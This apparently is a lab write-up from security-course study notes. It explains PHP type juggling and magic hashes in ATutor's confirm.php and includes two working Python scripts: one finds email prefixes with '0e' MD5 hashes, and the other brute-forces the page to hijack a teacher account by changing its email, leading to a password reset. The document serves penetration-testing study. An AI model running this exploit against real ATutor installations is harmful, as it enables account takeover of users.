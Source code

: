 ## What is Type Juggling
A type juggling vulnerability arises when loose comparisons(== or == ! ) are employed instead of strict comparisons (=== or !== ) in an area where the attacker can control one of the variables being controlled.

For instance:

![](../../03.%20Screenshots/t1-ss53.png)

We see that comparing:
1. Hex value in string type to integer value in string type
2. Hex value in string type and integer value in integer type
3. Hex value in integer type and integer value in integer type
all give true.

For atutor, we are interested in scientific exponential number notations.
Any time if a string starts with any number of digits, followed by the letter "e", which is then followed by any number of digits, the string is used in numeric context, and will be evaluated as a number.

In the following example:

![](../../03.%20Screenshots/t1-ss54.png)

We see that, the automatic string-to-integer casting is working as expected even when the exponential notation is involved.

## Type Juggling Atutor
In context of Atutor, we  find a publicly accessible confirm.php page, where we see the following chunk of code:

![](../../03.%20Screenshots/t1-ss55.png)

We see that if the GET request variables, 'e', 'id' and 'm' are set, the values are then set to their respective variables.
The non-working addslashes function is being used.
The id variable is then used to build the sql query. The id variable is typecast into an integer and that query is also properly parameterized for the queryDB function(elimination the chance of sql injection).
Finally, there's a check for the creation date of user's email by comparing it if a creation date exists.

Going further:

![](../../03.%20Screenshots/t1-ss56.png)

The $code variable is initialized with the MD5 hash of the concatenated string consisting of 2 values that we control i.e. $e and $id  and the creation date entry, returned from the database by the previously analyzed SELECT query.
Moreover, only the first 10 characters of the MD5 hash are being assigned to the $code variable.

The vulnerable part then arrives, where we see a loose comparison of the $code and $m variable.
Here, we fully control the $m variable and partially control the $code variable.

## Exploiting Magic Hashes
To exploit a type juggling vulnerability, we use magic hashes.
A magic hash is basically a string that is when converted into a hash, creates a string starting with 0, followed by the letter "e", followed by other digits.
For instance:

![](../../03.%20Screenshots/t1-ss57.png)

Here, the md5 hash of the given number, starts with 0, followed by the letter 'e', followed by a numerical string.
This means, this number can exploit a type juggling vulnerability.

In our Atutor instance, the hash formed for the loose comparison is created by the email, the creation date and the id.
We can create a similar magic hash generator in python as follows:

```python
import hashlib, string, itertools, re, sys

def gen_code(domain, id, date, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(prefix_length))):
        hash = hashlib.md5("%s@%s" % (word, domain) + date + id).hexdigest()[:10]
        if re.match(r'0+[eE]\d+$', hash):
            print "(+) Found a valid email! %s@%s" % (word, domain)
            print "(+) Requests made: %d" % count
            print "(+) Equivalent loose comparison: %s == 0\n" % (hash)
        count += 1

def main():
    if len(sys.argv) != 5:
        print '(+) usage: %s <domain_name> <id> <creation_date> <prefix_length>' % sys.argv[0]
        print '(+) eg: %s offsec.local 3 "2018-06-10 23:59:59" 3'  % sys.argv[0]
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    creation_date  = sys.argv[3]
    prefix_length = sys.argv[4]

    gen_code(domain, id, creation_date, prefix_length)

if __name__ == "__main__":
    main()
```

The script, takes a domain(that we control), id, creation date and a set of alpha characters, to create all possible combinations of usernames, where the md5 hash results to a scientific exponent string.

The result of the script is as follows:

![](../../03.%20Screenshots/t1-ss58.png)

In a 3 character set, the number of requests made is 617, which is not a lot.

We can use this logic, to create a script, that brute forces the web application into generating a redirect request, which is created if the md5 of email gives 0eDDD.

```python
import hashlib, string, itertools, re, sys, requests

def update_email(ip, domain, id, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(prefix_length))):
        email = "%s@%s" % (word, domain)
        url = "http://%s/ATutor/confirm.php?e=%s&m=0&id=%s" % (ip, email, id)
	      print "(*) Issuing update request to URL: %s" % url
        r = requests.get(url, allow_redirects=False)
        if (r.status_code == 302):
            return (True, email, count)
        else:
            count += 1
    return (False, Nothing, count)

def main():
    if len(sys.argv) != 5:
        print '(+) usage: %s <domain_name> <id> <prefix_length> <atutor_ip>' % sys.argv[0]
        print '(+) eg: %s offsec.local 1 3 192.168.1.2'  % sys.argv[0]
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    prefix_length = sys.argv[3]
    ip = sys.argv[4]

    result, email, c = update_email(ip, domain, id, prefix_length)
    if(result):
        print "(+) Account hijacked with email %s using %d requests!" % (email, c)
    else:
        print "(-) Account hijacking failed!"

if __name__ == "__main__":
    main()
```

Executing the script, we see that the email for the teacher account is changed:

![](../../03.%20Screenshots/t1-ss59.png)

After 2335 attempts, we find the username that will bypass authentication.
And the teacher account is hijacked:

![](../../03.%20Screenshots/t1-ss60.png)

With the email changed, we can now request an change password on this account:

![](../../03.%20Screenshots/t1-ss61.png)

By changing the password, we can then login with the new password and move forward to exploit the file upload vulnerability.
